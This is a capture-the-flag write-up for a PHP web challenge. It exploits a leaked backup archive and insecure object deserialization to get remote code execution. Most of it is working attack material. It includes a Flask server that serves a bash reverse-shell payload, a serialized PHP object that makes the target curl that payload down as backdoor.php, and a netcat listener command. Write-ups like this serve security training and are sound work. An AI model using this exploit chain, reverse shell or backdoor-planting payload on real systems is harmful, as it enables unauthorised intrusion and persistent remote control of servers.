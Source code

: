 Vulnerability
-------------

LFI + PHP Object Injection / PHP Insecure Object Deserialization + RCE

Exploit
-------

First, use the **Guess my last name** option. As in the Romanian cartoon, the correct answer is **Iscusitul**. After you input it, the server echoes `backup.zip`.

This is the name of an archive left in the server containing a relevant piece of source code. Access it at `/backup.zip` and decompress it.

The other tools in the web page really do what they say: uppercase the input, unserialize it or trim the whitespace. You guessed it, the handy one is **Unserialize**.

After inspecting the source code in the archive, you see what the serialized input object should look like. It has to be a PHP class with two attributes:
 * `$condition` - boolean with the value `true`
 * `$prop` - a string you can use for remote code execution on the server

Since the actual output of the command is not shown, only the unserialized string, you should try to create a reverse shell.

I started a Flask app on port 1234 where, if accessed, I return a piece PHP code that spawns a reverse shell to my machine. You should find out what your IP address is and change it. You can run the server with: `python app.py`

```python
# app.py
from flask import Flask, make_response

app = Flask(__name__)

@app.route("/", methods=['GET'])
def index():

    MY_IP = '172.17.0.1'

    code = '''<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/%s/1234 0>&1'");''' % MY_IP

    return make_response(code)


if __name__ == "__main__":
    app.run(host="0.0.0.0", debug=True, port=1234)
```

I created a PHP class with a command that performs a request to my server and saves the output to `backdoor.php`. I created the serialized input. Make sure to change the IP with yours.

```php
<?php
//payload.php
class PHPClass
{
	public $condition = true;
	public $prop = "system('curl http://172.17.0.1:1234 -o backdoor.php');";
}
echo serialize(new PHPClass);
?>
```

You can run this file in command line with: `php payload.php`. The serialized payload is:

`O:8:"PHPClass":2:{s:9:"condition";b:1;s:4:"prop";s:54:"system('curl http://172.17.0.1:1234 -o backdoor.php');";}`

After you input it on the server, the file `/backdoor.php` is created and you can access it.

In the meantime, the Flask server on your machine won't support this reverse shell. You need to close it and open a simple netcat connection before you access the backdoor:

`nc -nvlp 1234`
